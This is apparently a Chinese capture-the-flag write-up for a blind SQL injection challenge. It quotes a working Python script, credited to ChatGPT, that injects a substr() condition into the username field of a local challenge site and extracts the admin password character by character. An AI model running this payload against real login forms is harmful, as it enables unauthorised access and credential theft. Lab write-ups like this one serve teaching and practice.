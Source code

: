 # 15-SQLi 5

## 问题描述

不会回显的sql注入。



## 思路

只能sql blind injection（盲注）



## exp

这个脚本是chatgpt给我写的，而且就问了一次就写成。太牛逼了。

> 要编写一个盲注脚本来通过逐字符猜测数据库中的密码，我们可以使用 Python 的 requests 库进行 HTTP 请求，并结合布尔盲注法对数据库内容进行枚举。
>
> 假设我们要猜测 admin 用户的密码，可以逐字符猜测密码的每个字符的 ASCII 值，直到猜出完整的密码。以下是盲注脚本的示例：
>
> ```python3
> import requests
> import string
> 
> url = "http://challenge.localhost/"  
> target_user = "admin"
> guessed_password = ""
> 
> # 逐字符猜测密码
> while True:
>     found_character = False
>     for char in string.printable:  # 使用可打印字符进行猜测
>         payload = {
>             "username": f'{target_user}" AND substr(password,{len(guessed_password) + 1}, 1) = "{char}" -- ',
>             "password": "anything"
>             # 任何内容，因为 `password` 字段已在SQL注入条件中被绕过
>         }
> 
>         response = requests.post(url, data=payload)
> 
>         # 判断响应是否与之前不同来推测字符是否正确
>         if "Hello, admin" in response.text:
>             guessed_password += char
>             print(f"[+] Guessed so far: {guessed_password}")
>             found_character = True
>             break  
>             # 找到字符后，跳出循环尝试下一个字符
> 
>     # 如果在循环中没有找到新字符，则猜测结束
>     if not found_character:
>         print(
>             f"[+] Password for {target_user} is: 				{guessed_password}"
>         )
>         break
> '''
> 脚本解释
> SQL 注入构造：我们使用:
> substr(password, {len(guessed_password) + 1}, 1) 
> 来获取 password 的每个字符，char 是我们猜测的当前字符。SQL 注入条件为 username 参数构造的部分。
> 布尔判断：每次请求后，检查响应页面中是否出现 Hello, admin。如果匹配，则表示字符猜对，加入 guessed_password，否则继续猜测下一个字符。
> 终止条件：当一轮猜测无法找到新字符时，说明我们已猜完所有字符。